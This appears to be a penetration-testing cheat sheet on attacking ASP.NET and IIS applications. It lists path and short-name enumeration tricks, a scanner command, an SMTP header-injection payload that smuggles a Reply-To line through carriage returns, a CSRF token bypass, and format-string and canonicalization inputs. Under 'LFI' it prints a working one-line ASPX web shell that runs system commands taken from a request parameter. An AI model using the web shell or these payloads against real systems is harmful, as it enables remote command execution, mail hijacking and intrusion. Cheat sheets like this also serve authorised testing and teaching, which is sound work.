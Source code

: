 # Enumeration
Directories
C:\Windows\System32
\\Host\C$\Windows\System32
\\.\C:\Windows\System32
\\?\C:\Windows\System32
\\?\UNC\Host\C$\Windows\System32
C:\Windows\hh.exe == C:\Windows:$I30:$INDEX_ALLOCATION\hh.exe
C:\Windows\notepad.exe == C:\Windows\notepad.exe::$DATA
FileName.aspx == FileName.aspx:.jpg
web.config
http://hostname/*Resource.axd?d=<resourceId>&t=<timestamp>
Files
.asp
.aspx
.ashx
.xsd
.disco
.discomap
.wsdl
.wadl
.asmx
.xml
.config
.zip
.txt
Techniques
Information disclosure
Look for files
Requests and responses
Error pages
Urls
Obfuscated strings
short name scanning: https://github.com/irsdl/IIS-ShortName-Scanner 
java –jar iis_shortname_scanner.jar [2=SHOW_PROGRESS] [20=THREADS] “TARGET-URL” > [OUT]
ps: ignore “global”, “master”, “default”, “aspnet”
Viewstate
Remote debugging
since ASP.NET is a compiled application, it has certain debugging features. Microsoft allows you to use a remote debugger to work on a debug version of the application.  If this port is open on the Internet and is protected by a simple password, or there is no password at all, then it is possible to pick up a debugger
SMTP Header Injection
No validation of the value that falls in the “To” header, it is possible to redirect the letter to another recipient. But that would be too simple and obvious, so validation occurs already at the .Net level. However, if you introduce a new Reply-To header — the answer address, many forms such as “Forgotten Password” often take the sending address from it, thus it is enough to embed carriage return and line feed characters and get the workload.
From: rth@bieberdorf.edu (R.T. Hood)
To: tmh@immense-isp.com/r/nReply-to:hack@hack.ru
Date: Tue, Mar 18199714:36:14 PST
Message-Id: <rth031897143614-00000298@mail.bieberdorf.edu>
...
В итоге будет внедрен новый заголовок:
From: rth@bieberdorf.edu (R.T. Hood)
To: tmh@immense-isp.com
Reply-To: hack@hack.ru
Date: Tue, Mar 18199714:36:14 PST
Message-Id: <rth031897143614-00000298@mail.bieberdorf.edu>


CSRF
A vulnerability was found that allows to bypass the protection from CSRF. It was necessary to simply use a string much smaller than the original one as a token.
Normal token: <inputtype="hidden" name="__RequestVerificationToken" value="CIhXcKin7XcwYn8Y1hNVgP5eOOhAMn37dnZtFzziOqhflM423Z5JKkVPciRopfgcPau5tj" />
Vulnerable Token: <inputtype="hidden" name="__RequestVerificationToken" value="ovomyQnYPxvPXfdxrjO1JEce3zPvGn" />

XXE in DocX
padding oracle (cookies / viewstate …)
session management
Injection (sql with sqlNinja, js, html…)
NUL:  /  CON:  /  AUX:  /  PRN:  /   %%
Endings: name = name… = name \\\
Format strings attack
%n%n%n%n%n%n%n%n
%s%s%s%s%s%s%s%s%s
%d%d%d%d%d%d%d%d
Canonicalization attack
%C1%81 = overlong UTF-8 for “A”
&gt; = HTML encoded “>”
%41 = Hex for “A”
%windir%notepad.exe = using environment variables to represent path
C:wondowsnotepad.exe. = trailing “.”
C:Progra~1Longf~1.txt = short names
Redirect
Create file: \\URL\<name>		\\URL\pipe\<name>
Hash collusion: https://github.com/HybrisDisaster/aspHashDoS
LFI
<%@ Page Language="C#" %> <%@ Import Namespace="System.Diagnostics" %> <%= Process.Start( new ProcessStartInfo( "cmd","/c " + Request["c"] ) { UseShellExecute = false, RedirectStandardOutput = true } ).StandardOutput.ReadToEnd() %>
LINQ injection
Trace method
Session fixation 
Replay attacks
CORS
Serialization

References
https://www.youtube.com/watch?v=HrJW6Y9kHC4 
https://cheatsheetseries.owasp.org/cheatsheets/DotNet_Security_Cheat_Sheet.html
https://resources.infosecinstitute.com/topic/net-penetration-testing-test-case-cheat-sheet/
https://www.business2community.com/cybersecurity/9-ways-hackers-exploit-asp-net-and-how-to-prevent-them-02353604
Positive technologies
